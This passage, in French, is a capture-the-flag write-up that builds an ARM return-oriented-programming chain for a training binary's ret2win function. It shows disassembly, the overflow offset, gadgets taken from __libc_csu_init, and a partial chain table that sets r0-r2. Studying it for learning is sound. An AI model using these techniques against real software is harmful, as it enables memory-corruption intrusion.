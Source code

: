     │           0x000007d4      03308fe0       add r3, pc, r3              ; 0xcf0 ; "Thank you!"
    │           0x000007d8      0300a0e1       mov r0, r3                  ; 0xcf0 ; "Thank you!" ; const char *s
    │           0x000007dc      74ffffeb       bl sym.imp.puts             ; int puts(const char *s)
    │           0x000007e0      0000a0e1       mov r0, r0                  ; 0xcf0 ; "Thank you!"
    │           0x000007e4      04d04be2       sub sp, var_4h_2
    └           0x000007e8      0088bde8       pop {fp, pc}

On y retrouve la valeur de l'offset de débordement (40)  ainsi que la taille max de la chaîne de ROP (512)

    │           ; var void *buf @ fp-0x24
    │           0x000007bc      24304be2       sub r3, buf
    │           0x000007c0      022ca0e3       mov r2, 0x200
    │           0x000007c4      0310a0e1       mov r1, r3                  ; void *buf
    │           0x000007c8      0000a0e3       mov r0, 0                   ; int fildes
    │           0x000007cc      72ffffeb       bl sym.imp.read             ; ssize_t read(int fildes, void *buf, size_t nbyte)



### Recherche de gadgets

Pour appeller ret2win il nous faut charger les registre r0, r1, r2

Pour r0 c'est possible.


    0x000105c8 : mov r0, r3 ; pop {fp, pc}
    0x00010474 : pop {r3, pc}

Mais pas r1 et r2.

Dans __libc_csu_init on a deux gadgets :

    0x00010644 pop {r4, r5, r6, r7, r8, sb, sl, pc}

    0x0001062c      0920a0e1       mov r2, sb
    0x00010630      0810a0e1       mov r1, r8
    0x00010634      0700a0e1       mov r0, r7
    0x00010638      33ff2fe1       blx r3

On peut avec le premier charger sb, r8 et r7.
Charger r3 avec

    0x00010474 : pop {r3, pc}

Puis enchainer sur le gadget d'appel avec `blx r3`


### La chaine de ROP



|address   | gadget | comment |
|----------|--------|------|
| 0x00010644 | pop {r4, r5, r6, r7, r8, sb, sl, pc} | Chargement des registres |
| 0 || pop r4 |
| 0 || pop r5 |
| 0 || pop r6 |
| 0xdeadbeef|| pop r7 |
| 0xcafebabe|| pop r8 |
| 0xd00df00d|| pop sb |
| 0|| pop sl |
| 0x00010474 | pop {r3, pc} | Chargement de r3 avec ret2win@plt